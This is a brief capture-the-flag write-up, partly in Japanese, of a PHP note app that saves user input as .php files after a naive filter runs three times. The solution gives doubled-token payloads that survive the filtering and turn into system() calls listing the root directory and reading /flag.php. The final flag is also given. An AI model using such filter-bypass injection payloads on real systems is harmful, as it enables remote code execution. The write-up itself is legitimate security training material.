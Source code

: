 ```php

if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];

    //3rd times the charm and I've learned my lesson. Now I'll make sure to filter more than once :)
    $notetoadd = filter($newnote);
    $notetoadd = filter($notetoadd);
    $notetoadd = filter($notetoadd);

    $filename = generateRandomString();
    array_push($_SESSION["notes"], "$filename.php");
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```

<br />

### Solution
3回フィルターがかかるので、それを見越して文字列を組みます。

`<<<<???? syssyssyssystemtemtemtem("ls -al /"); ????>>>>`

/flag.php があるのがわかるので、それを読みます。

`<<<<???? syssyssyssystemtemtemtem("cacacacatttt /flflflflagagagag.php"); ????>>>>`

<br />

Flag: `flag{wait_but_i_fixed_it_after_my_last_two_blunders_i_even_filtered_three_times_:(((}`



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />
